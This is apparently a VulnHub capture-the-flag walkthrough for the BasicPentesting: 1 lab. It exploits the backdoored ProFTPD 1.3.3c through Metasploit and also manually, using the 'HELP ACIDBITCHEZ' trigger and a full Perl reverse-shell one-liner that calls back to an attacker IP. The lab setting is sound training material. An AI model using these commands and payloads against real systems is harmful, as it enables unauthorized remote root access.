










VulnHub // Linux // Easy
Name: BasicPentesting: 1 Platform: VulnHub Difficulty: Easy OS: Linux
I began by identifying the target on the local network using arp-scan. The scan returned several live hosts, and the machine chosen for this assessment was 192.168.29.161. There was an initial packet send issue on the first attempt, but rerunning the scan worked correctly and confirmed the target host.
arp-scan --localnet

After identifying the target, I ran an aggressive Nmap scan to enumerate open ports, service versions, and useful fingerprint information. The scan revealed FTP on port 21 running ProFTPD 1.3.3c, SSH on port 22, and HTTP on port 80 running Apache. The FTP service immediately stood out because ProFTPD 1.3.3c is associated with a well-known backdoored release.
nmap -A -p- -T4 -oN nmap.txt 192.168.29.161

After spotting ProFTPD 1.3.3c, I searched for known vulnerabilities affecting that exact version. This led to the ProFTPD 1.3.3c backdoor, which was not a typical programming flaw but the result of a compromised source distribution. A malicious modification was inserted into the ProFTPD 1.3.3c source archive, meaning systems built from that tainted version could expose hidden remote command execution behavior.
In this machine, the vulnerable service responded to the backdoor trigger used by the Metasploit module exploit/unix/ftp/proftpd_133c_backdoor. That module interacts directly with the FTP control channel, sends a crafted command to test for the backdoor, and, if the target behaves like a compromised build, delivers a payload for command execution. Because of that, this vulnerability could be exploited both through Metasploit and by manually reproducing the same interaction against the FTP service.
On this target, successful exploitation resulted in a root shell, making the issue a high-impact remote code execution vulnerability.
The vulnerability can be exploited using Metasploit Framework, and I also manually verified the same behavior without framework assistance.
To verify exploit availability locally, I searched Exploit-DB for entries related to ProFTPD 1.3.3c. The search returned both a text advisory and a Metasploit module for backdoor command execution.
searchsploit ftpd 1.3.3c

I then launched Metasploit, searched for the relevant module, loaded the ProFTPD 1.3.3c backdoor exploit, and reviewed the available payloads. For this run, I selected cmd/unix/reverse, which returns a reverse shell to the attacking machine.
msfconsole search proftpd 1.3.3c use exploit/unix/ftp/proftpd_133c_backdoor show payloads use 4

After selecting the payload, I configured the target and callback settings. The target host was 192.168.29.161, the FTP service remained on port 21, and the reverse shell listener was configured on my attacking machine at 192.168.29.126:4444.
set RHOSTS 192.168.29.161 set RPORT 21 set LHOST 192.168.29.126 set LPORT 4444 show options

With the exploit and payload configured, I executed the module. Metasploit sent the backdoor trigger to the FTP service, passed the payload, and returned a shell as root. This confirmed that the ProFTPD service on the target was vulnerable to the backdoored 1.3.3c remote command execution path.
exploit whoami

To manually verify the same vulnerability, I interacted directly with the FTP service rather than relying on Metasploit. The idea was to reproduce the same backdoored command execution behavior over the FTP control channel and have the target return a reverse shell to my listener.
I first set up a Netcat listener on my attacking machine. This listener waited for the target to connect back once the payload was executed.
nc -lvnp 4444

Next, I connected directly to the FTP service using Netcat and manually sent the trigger string associated with the backdoored ProFTPD build. This reproduced the same trigger behavior used by the Metasploit module, but without framework assistance.
nc 192.168.29.161 21 HELP ACIDBITCHEZ

After triggering the backdoor, I manually sent a reverse shell payload through the same channel. The payload instructed the target to connect back to 192.168.29.126:4444 and spawn an interactive shell.
nohup perl -e 'use Socket;$i="192.168.29.126";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' >/dev/null 2>&1

The listener then received an incoming connection from the target, giving me a shell. Running whoami confirmed that the shell was executing as root. This demonstrated full remote code execution and showed that the service was exploitable even without Metasploit.

arp-scan local subnet → target identified as 192.168.29.161 nmap service enumeration → ProFTPD 1.3.3c discovered on port 21 vulnerability research → known ProFTPD 1.3.3c backdoor identified searchsploit + Metasploit → exploit module selected and configured manual verification → backdoor triggered directly over FTP control channel remote code execution → root shell obtained via backdoored FTP service